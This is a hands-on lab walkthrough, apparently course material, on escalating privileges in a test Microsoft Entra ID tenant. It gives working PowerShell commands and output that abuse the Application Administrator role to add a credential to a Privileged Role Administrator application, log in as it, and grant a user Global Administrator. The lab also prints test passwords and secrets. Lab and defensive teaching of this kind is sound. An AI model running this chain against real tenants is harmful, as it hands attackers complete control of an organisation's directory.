

Azure Privilege Escalation
Objectives
- Demonstrate that the Application Administrator role can lead to privilege escalation.
- Leverage initial privilege escalation to escalate to Global Administrator.
Introduction
Now that you've identified an Microsoft Entra ID user account and application that have elevated privileges, we'll test whether a privilege escalation attack could allow an attacker or developer to assume excessive privileges, up to and including Global Administrator!
We will again use PowerShell commands to manually perform this test. If all goes well, you'll be able to show the Tyrell Corp developers and CISO that the developers have introduced significant risk into the environment with over-privileged role assignments.
Lab Preparation
Before starting this lab, you must have already completed the Azure Manual Reconnaissance lab.
Current State
At this point, you should:
-
Be logged into https://portal.azure.com with your Azure account.
-
Have created the test Microsoft Entra ID environment replicating Tyrell Corp's fictitious production environment.
-
Have identified a non-privileged account to use as the starting point for the privilege escalation attack.
-
Performed reconnaissance to gather information about the Application Administrator role and user, and the Privileged Role Administrator (PRA) role and application.
-
Have your own copy of the Azure-Notes workbook open, recording information up to this point about your Azure account and Microsoft Entra ID environment.
Step-by-Step Instructions
1. Prepare PowerShell Environment
1. Prepare PowerShell Environment
Let's use some of the values collected in the previous Azure labs to set PowerShell environment variables, that we will then use to perform the privilege escalation attack.
-
Switch back to the browser tab accessing the Azure portal https://portal.azure.com.
URL
https://portal.azure.com -
Start a Cloud Shell session with PowerShell as the terminal (as we did in the previous lab).
Click on the Cloud Shell icon at the top of the page, immediately to the right of the search bar.

Maximizing the Shell
You can maximize the shell by clicking on the 'maximize' icon near the top-right of the terminal window.

-
If your current shell is bash, then switch to PowerShell.
Click on the dropdown menu control in the top-left corner of the Cloud Shell terminal, currently displaying 'Bash'. Then click on PowerShell from the dropdown menu.
You will be presented with a "Switch to PowerShell in Cloud Shell" prompt. Click on the Confirm command button.

-
After a minute, your web browser tab will display a PowerShell terminal prompt.
The standard Azure Cloud Shell prompt includes the account user name, and so will be different than the prompt in the screenshot above.
-
Part of our escalation attack will be to authenticate to Azure with the service principal of the Privileged Role Administrator (PRA). This will require that we have the application ID and object ID of the application assigned the PRA role.
In the Azure Manual Reconnaissance lab, we identified the application ID and object ID, set environment variables to those values, and recorded the values in the Azure-Notes workbook.
We can recreate that environment variables by copying commands from calculated cells in your Azure-Notes workbook.
Copy the contents of cells L20:L21.
Now paste the copied cells to your Cloud Shell terminal window.
Then execute the command below to verify that the values are set correctly:
Cloud Shell PowerShell Input
${PRA_APPID} ${PRA_APP_OBJECTID}Your output should look similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $PRA_APPID='90f89545-3f20-4d8e-8cd6-747b6f8e890b' PS /home/sec530-labs-azure-sec530-labs-xp> $PRA_APP_OBJECT_ID='b2bd0627-b9d7-48ec-80fb-4375592f8365' PS /home/sec530-labs-azure-sec530-labs-xp> ${PRA_APPID} 90f89545-3f20-4d8e-8cd6-747b6f8e890b PS /home/sec530-labs-azure-sec530-labs-xp> ${PRA_APP_OBJECTID} b2bd0627-b9d7-48ec-80fb-4375592f8365 PS /home/sec530-labs-azure-sec530-labs-xp> -
Next let's retrieve the universal principal name (UPN) of the user assigned the Application Administrator role.
This was set when Terraform created the test environment in the Azure Environment Setup lab, and validated in the Azure Manual Reconnaissance lab when we enumerated application administrator accounts.
We saved the elements that make up the UPN in the Azure-Notes workbook, and the full UPN is calculated for you as the 'Application Admin UPN'.
Copy the contents of cell L22 to copy a command that sets an environment variable containing the full UPN of the Application Administrator user.
Then execute the command below to display the variable's value:
Cloud Shell PowerShell Input
${APP_ADMIN_UPN}Your output should look similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $APP_ADMIN_UPN='benjaminwaters@sansdevstudent79e4d10cee7f.onmicrosoft.com' PS /home/sec530-labs-azure-sec530-labs-xp> ${APP_ADMIN_UPN} benjaminwaters@sansdevstudent79e4d10cee7f.onmicrosoft.com PS /home/sec530-labs-azure-sec530-labs-xp> -
We will also need the password for this user.
When Terraform created the test environment, the passwords for all user accounts were set to the same value. We saved this value to the Azure-Notes workbook, this time as the 'Random User Password'.
Copy the contents of cell L12 to copy a command that sets an environment variable containing the password.
Then execute the command below to display the variable's value:
Cloud Shell PowerShell Input
${PLAINTEXT_PASSWORD}Your output should look similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $PLAINTEXT_PASSWORD='amusing-parakeet-hSbg' PS /home/sec530-labs-azure-sec530-labs-xp> ${PLAINTEXT_PASSWORD} amusing-parakeet-hSbg PS /home/sec530-labs-azure-sec530-labs-xp> -
Finally, we'll need the Microsoft Entra ID subscription's tenant ID. Execute the commands below to retrieve the tenant ID value, save the value to a variable, and display the variable's contents.
Cloud Shell PowerShell Input
$TENANT_ID=(Get-AzTenant).Id ${TENANT_ID}Your output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $TENANT_ID=(Get-AzTenant).Id PS /home/sec530-labs-azure-sec530-labs-xp> ${TENANT_ID} f6edcda7-02bc-4daa-972d-15567f6e3bb6 PS /home/sec530-labs-azure-sec530-labs-xpDouble-checking Against the Workbook
We saved the tenant ID in the Azure-Notes workbook back in Azure Account Setup. You can double-check the value in the output above against the value saved in the workbook.
You have now prepared the PowerShell environment to perform the privilege escalation attack.
You set multiple environment variables based on information you previously collected.
| Azure Information | Environment Variable |
|---|---|
| Application ID of the application assigned the Privileged Role Administrator (PRA) role | PRA_APPID |
| Privileged Role Administrator (PRA) Application's Object ID | PRA_APP_OBJECTID |
| UPN of the user assigned the Application Administrator role | APP_ADMIN_UPN |
| Application Administrator user's password | PLAINTEXT_PASSWORD |
| Tenant ID | TENANT_ID |
We'll use these variables in the commands for our privilege escalation attack, to make the command execution easier and less error-prone.
We've demonstrated that most of this information could be obtained by a non-privileged user. The only information that we didn't demonstrate obtaining is the Application Administrator's password. However, we did demonstrate identifying the Application Administrator user, which would allow the attacker to target that user through other attacks including phishing and social engineering.
2. Create a new password credential for a PRA application
2. Create a new password credential for a PRA application
Now let's start the privilege escalation attack!
First we'll login as the user assigned the Application Administrator role, which will then allow allow us to create a new password credential for the application assigned the PRA role.
-
Execute the following commands to login as the Application Administrator.
Execute the following commands:
Cloud Shell PowerShell Input
$SECURE_PASSWORD = ConvertTo-SecureString "${PLAINTEXT_PASSWORD}" -AsPlainText -Force $CREDENTIAL = New-Object System.Management.Automation.PSCredential(${APP_ADMIN_UPN}, ${SECURE_PASSWORD}) Connect-AzureAD -Credential $CREDENTIALYour output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $SECURE_PASSWORD = ConvertTo-SecureString "${PLAINTEXT_PASSWORD}" -AsPlainText -Force PS /home/sec530-labs-azure-sec530-labs-xp> $CREDENTIAL = New-Object System.Management.Automation.PSCredential(${APP_ADMIN_UPN}, ${SECURE_PASSWORD}) PS /home/sec530-labs-azure-sec530-labs-xp> Connect-AzureAD -Credential $CREDENTIAL PS /home/sec530-labs-azure-sec530-labs-xp>Why do these commands look familiar?
These commands are very similar to when we authenticated as a random non-privileged user in the Azure Manual Reconnaissance lab. The only key difference is that we're now examining how an attacker or developer might escalate once they obtain access to an account assigned the Application Administrator role -- so we need to login with that account!
-
Our next step is to create a new password credential for the PRA application, so that we can authenticate with PRA privileges and manipulate other privileged roles.
Execute the commands below, leveraging the PRA application's object ID that we saved to a variable in task 1, to create and then view the new credential.
Cloud Shell PowerShell Input
$PRA_APP_PT_CREDENTIAL=New-AzureADApplicationPasswordCredential -ObjectId ${PRA_APP_OBJECTID} ${PRA_APP_PT_CREDENTIAL}Your output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $PRA_APP_PT_CREDENTIAL=New-AzureADApplicationPasswordCredential -ObjectId ${PRA_APP_OBJECTID} PS /home/sec530-labs-azure-sec530-labs-xp> ${PRA_APP_PT_CREDENTIAL} CustomKeyIdentifier : EndDate : 9/20/2024 11:56:12 PM KeyId : StartDate : 9/20/2023 11:56:12 PM Value : RSrI3VNtYLW1jB9yY7pQSD99/TUbG7QpPziq2nptWNs= PS /home/sec530-labs-azure-sec530-labs-xp>The ${PRA_APP_PT_CREDENTIAL}.Value property value is the new plaintext password!
-
Now that we have a credential that we think will let us authenticate as the PRA service principal, let's logout of the Microsoft Entra ID user assigned the Application Administrator role.
Cloud Shell PowerShell Input
Disconnect-AzureADYour output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Disconnect-AzureAD PS /home/sec530-labs-azure-sec530-labs-xp>
You have created a new password credential.
This completes the first part of our privilege escalation attack!
3. Login as the PRA Service Principal
3. Login as the PRA Service Principal
Our next task is to login as the PRA service principal so that we can manage other privileged roles.
-
Logging into Microsoft Entra ID with the new credential requires that we convert the plaintext password to a PowerShell SecureString and create a PowerShell Credential object. Execute the commands below to do so, and to display properties of the new Credential object.
Cloud Shell PowerShell Input
$PRA_APP_SECURESTRING=ConvertTo-SecureString $PRA_APP_PT_CREDENTIAL.Value -AsPlainText -Force $PRA_APP_SECURE_CREDENTIAL=New-Object System.Management.Automation.PSCredential($PRA_APPID, $PRA_APP_SECURESTRING) ${PRA_APP_SECURE_CREDENTIAL} | Format-ListYour output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $PRA_APP_SECURESTRING=ConvertTo-SecureString $PRA_APP_CREDENTIAL.Value -AsPlainText -Force PS /home/sec530-labs-azure-sec530-labs-xp> $PRA_APP_SECURE_CREDENTIAL=New-Object System.Management.Automation.PSCredential($PRA_APPID, $PRA_APP_SECURESTRING) PS /home/sec530-labs-azure-sec530-labs-xp> ${PRA_APP_SECURE_CREDENTIAL} | Format-List UserName : 90f89545-3f20-4d8e-8cd6-747b6f8e890b Password : System.Security.SecureString PS /home/sec530-labs-azure-sec530-labs-xp>Note that the ${PRA_APP_SECURE_CREDENTIAL}.UserName value is the same as the PRA AppId. You can quickly validate this with the following command:
Cloud Shell PowerShell Input
${PRA_APP_SECURE_CREDENTIAL}.UserName -eq ${PRA_APPID}Which will produce the following output, including the result of 'True':
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> ${PRA_APP_SECURE_CREDENTIAL}.UserName -eq ${PRA_APPID} True PS /home/sec530-labs-azure-sec530-labs-xp> -
Now that we have a secure Credential object, we can use it to authenticate to Microsoft Entra ID as the PRA service principal!
Cloud Shell PowerShell Input
Connect-AzAccount -Credential $PRA_APP_SECURE_CREDENTIAL -TenantId $TENANT_ID -ServicePrincipalYour output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Connect-AzAccount -Credential $PRA_APP_SECURE_CREDENTIAL -TenantId $TENANT_ID -ServicePrincipal WARNING: The provided service principal secret or certifcate password will be included in the 'keystore.cache' file found in the user profile ( /home/sec530-labs-azure-sec530-labs-xp/.Azure ). Please ensure that this directory has appropriate protections. Account SubscriptionName TenantId Environment ------- ---------------- -------- ----------- 90f89545-3f20-4d8e-8cd6-747b6f8e890b f6edcda7-02bc-4daa-972d-15567f6e3bb6 AzureCloud PS /home/sec530-labs-azure-sec530-labs-xp>The most important part of the command above is the
-ServicePrincipaloption, which tells PowerShell to authenticate as a service principal. There may be legitimate reasons for a user to manually login as a service principal but it can be dangerous! The PowerShell Connect-AzAccount cmdlet itself warns us of one of the risks:WARNING: The provided service principal secret or certifcate password will be included in the 'keystore.cache' file found in the user profile ( /home/sec530-labs-azure-sec530-labs-xp/.Azure ). Please ensure that this directory has appropriate protections.
You have logged in as the PRA service principal.
This completes the second part of our privilege escalation attack!
4. Connect to Microsoft Entra ID with a New OAuth Token
4. Connect to Microsoft Entra ID with a New OAuth Token
Now that we are authenticated as the PRA Service Principal, we need to generate an OAuth token and use it to connect to Microsoft Entra ID. The OAuth access token will allow us to authenticate to Microsoft Entra ID using the Connect-AzureAD cmdlet. The Connect-AzureAD cmdlet allows us to use some Microsoft Entra ID (i.e., Active Directory) cmdlets that the Connect-AzAccount does not - some of which are essential to completing the privilege escalation.
-
Execute the following command to establish the context for the OAuth token generation:
Cloud Shell PowerShell Input
$CONTEXT = [Microsoft.Azure.Commands.Common.Authentication.Abstractions.AzureRmProfileProvider]::Instance.Profile.DefaultContextNow execute the following command to create a Microsoft Graph API token:
Cloud Shell PowerShell Input
$AAD_TOKEN = [Microsoft.Azure.Commands.Common.Authentication.AzureSession]::Instance.AuthenticationFactory.Authenticate(${CONTEXT}.Account, ${CONTEXT}.Environment, ${CONTEXT}.Tenant.Id.ToString(), $null, [Microsoft.Azure.Commands.Common.Authentication.ShowDialog]::Never, $null, "https://graph.windows.net").AccessTokenYour output should be:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> $CONTEXT = [Microsoft.Azure.Commands.Common.Authentication.Abstractions.AzureRmProfileProvider]::Instance.Profile.DefaultContext PS /home/sec530-labs-azure-sec530-labs-xp> $AAD_TOKEN = [Microsoft.Azure.Commands.Common.Authentication.AzureSession]::Instance.AuthenticationFactory.Authenticate(${CONTEXT}.Account, ${CONTEXT}.Environment, ${CONTEXT}.Tenant.Id.ToString(), $null, [Microsoft.Azure.Commands.Common.Authentication.ShowDialog]::Never, $null, "https://graph.windows.net").AccessToken PS /home/sec530-labs-azure-sec530-labs-xp> -
Using the new OAuth access token, connect to Microsoft Entra ID with the Connect-AzureAD cmdlet.
Execute the command below.
Cloud Shell PowerShell Input
Connect-AzureAD -AadAccessToken ${AAD_TOKEN} -AccountId ${CONTEXT}.Account.Id -TenantId ${CONTEXT}.Tenant.IdYour output should match the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Connect-AzureAD -AadAccessToken ${AAD_TOKEN} -AccountId ${CONTEXT}.Account.Id -TenantId ${CONTEXT}.Tenant.Id PS /home/sec530-labs-azure-sec530-labs-xp>
You authenticated using the ConnectAzure-Ad cmdlet, using a generated OAuth token.
This completes the third part of our privilege escalation attack!
5. Escalate Privileges to Global Administrator
5. Escalate Privileges to Global Administrator
We're almost ready for the end objective: Escalating the Application Administrator to Global Administrator, giving complete control over the Microsoft Entra ID tenant!
However, there are a few more steps we need to complete...
-
Escalating to Global Administrator requires that we have its object ID.
Execute the commands below to enumerate Global Administrators, save its object ID in a variable, and display the variable contents.
Cloud Shell PowerShell Input
Get-AzureADDirectoryRole | ?{$_.DisplayName -eq 'Global Administrator'} | select DisplayName, ObjectId,RoleTemplateId | Format-List $GA_OBJECTID=(Get-AzureADDirectoryRole | ?{$_.DisplayName -eq 'Global Administrator'}).ObjectId ${GA_OBJECTID}Your output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Get-AzureADDirectoryRole | ?{$_.DisplayName -eq 'Global Administrator'} | select DisplayName, ObjectId,RoleTemplateId | Format-List DisplayName : Global Administrator ObjectId : 49c6994a-69bc-409e-bd73-7cfed841b9b5 RoleTemplateId : 62e90394-69f5-4237-9190-012177145e10 PS /home/sec530-labs-azure-sec530-labs-xp> $GA_OBJECTID=(Get-AzureADDirectoryRole | ?{$_.DisplayName -eq 'Global Administrator'}).ObjectId PS /home/sec530-labs-azure-sec530-labs-xp> ${GA_OBJECTID} 49c6994a-69bc-409e-bd73-7cfed841b9b5 PS /home/sec530-labs-azure-sec530-labs-xp> -
We also need the object ID of the user account assigned the Application Administrator role, so that we can specify it as the object to receive Global Administrator privileges.
Execute the commands below to retrieve the user account, save its object ID in a variable, and display the contents of the variable.
Cloud Shell PowerShell Input
Get-AzureADUser | ?{$_.userprincipalname -eq $APP_ADMIN_UPN} | Select-Object ObjectId,DisplayName,UserPrincipalName,UserType | Format-List $APPADMIN_USER_OBJECTID=(Get-AzureADUser | ?{$_.userprincipalname -eq $APP_ADMIN_UPN}).ObjectId ${APPADMIN_USER_OBJECTID}Your output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Get-AzureADUser | ?{$_.userprincipalname -eq $APP_ADMIN_UPN} | Select-Object ObjectId,DisplayName,UserPrincipalName,UserType | Format-List ObjectId : be18b6ea-56dc-4d4f-861f-4a87158b8496 DisplayName : Benjamin Waters UserPrincipalName : benjaminwaters@sansdevstudent79e4d10cee7f.onmicrosoft.com UserType : Member PS /home/sec530-labs-azure-sec530-labs-xp> $APPADMIN_USER_OBJECTID=(Get-AzureADUser | ?{$_.userprincipalname -eq $APP_ADMIN_UPN}).ObjectId PS /home/sec530-labs-azure-sec530-labs-xp> ${APPADMIN_USER_OBJECTID} be18b6ea-56dc-4d4f-861f-4a87158b8496 PS /home/sec530-labs-azure-sec530-labs-xp>Workbook Validation
You can validate the retrieved object ID by examining the 'Application Admin User ObjectId' value saved in the Azure-Notes workbook.
-
We can also use the Global Administrator object ID to enumerate the current holders of the role. Let's do that before we attempt the privilege escalation, so that after the attempt we can validate whether it was successful.
Execute the command below.
Cloud Shell PowerShell Input
Get-AzureADDirectoryRoleMember -ObjectId ${GA_OBJECTID} | select Objectid,DisplayNameYour output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Get-AzureADDirectoryRoleMember -ObjectId ${GA_OBJECTID} | select Objectid,DisplayName ObjectId DisplayName -------- ----------- 4167bde7-e57d-46e8-af0a-0a2bad765de3 sec530-labs-azure-sec530-labs-xphsi 7d9cb69f-e89c-42d3-8db4-dae0e6252781 sansdevstudent79e4d10cee7f.onmicrosoft.com ITOps-App PS /home/sec530-labs-azure-sec530-labs-xp>Your output will be different but you should see that the user assigned the Application Administrator role is not also assigned the Global Administrator role!
-
Finally: Time for privilege escalation!
We'll accomplish this with the Add-AzureADDirectoryRoleMember cmdlet, using the access we've established with the OAuth access token and the referencing the object IDs of the Global Administrator role and the user assigned the Application Administrator role.
Cloud Shell PowerShell Input
Add-AzureADDirectoryRoleMember -RefObjectId ${APPADMIN_USER_OBJECTID} -ObjectId ${GA_OBJECTID}Your output should match the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Add-AzureADDirectoryRoleMember -RefObjectId ${APPADMIN_USER_OBJECTID} -ObjectId ${GA_OBJECTID} PS /home/sec530-labs-azure-sec530-labs-xp> -
The command successfully executed, but we can't declare success until we've validated that the user assigned the Application Administrator role is now also assigned the Global Administrator role!
Execute the command below to enumerate the current holders of the Global Administrator role.
Cloud Shell PowerShell Input
Get-AzureADDirectoryRoleMember -ObjectId ${GA_OBJECTID} | select Objectid,DisplayNameYour output should be similar to the following:
Cloud Shell PowerShell Output
PS /home/sec530-labs-azure-sec530-labs-xp> Get-AzureADDirectoryRoleMember -ObjectId ${GA_OBJECTID} | select Objectid,DisplayName ObjectId DisplayName -------- ----------- 65ce279e-40aa-44d3-907d-925b16873f23 admin@sansranges.onmicrosoft.com Glicksman 078e18ee-ab20-477d-ba40-ec757391d106 Odin Account Management (dev) 4167bde7-e57d-46e8-af0a-0a2bad765de3 sec530-labs-azure-sec530-labs-xphsi be18b6ea-56dc-4d4f-861f-4a87158b8496 Benjamin Waters 7d9cb69f-e89c-42d3-8db4-dae0e6252781 sansdevstudent79e4d10cee7f.onmicrosoft.com ITOps-App PS /home/sec530-labs-azure-sec530-labs-xp>Your output will be different but you should see that the user assigned the Application Administrator role now is also assigned the Global Administrator role!
Congratulations! You have successfully elevated privileges to Global Administrator!
Conclusion
Nice work! You have successfully demonstrated that privilege escalation is possible within the Tyrell Corp Microsoft Entra ID environment, all the way up to Global Administrator and complete control over the tenant!
An attacker could:
- Leverage non-privileged access to enumerate details of the Microsoft Entra ID environment, including users assigned the Application Administrator role and applications assigned the Privileged Role Administrator (role).
- Target the Application Administrator - for example, through other attacks including phishing and social engineering.
- After obtaining access as an Application Administrator, add new password credentials to any application's service principal, including those assigned the Privileged Role Administrator (PRA) role.
- Use the new credentials to interactively authenticate as the PRA application's service principal.
- Use the PRA privileges to assign themselves (or any other user!) the Global Administrator role!
In addition to the attack path that these labs illustrated, there is another glaring security hole in the environment. Since the Global Administrator role is assigned to an Azure application, the attacker could use the Application Administrator role to create a new password credential for that application's service principal and login as that service principal. This could give the attacker the Global Administrator role without having to either (a) obtain the PRA role or (b) add the Global Administrator role to any new users or objects.
Hopefully the Tyrell Corp CISO has enough information to successfully lobby for tighter controls on development and change control!
But you're not done quite yet! The final lab walks through tearing down the test environment.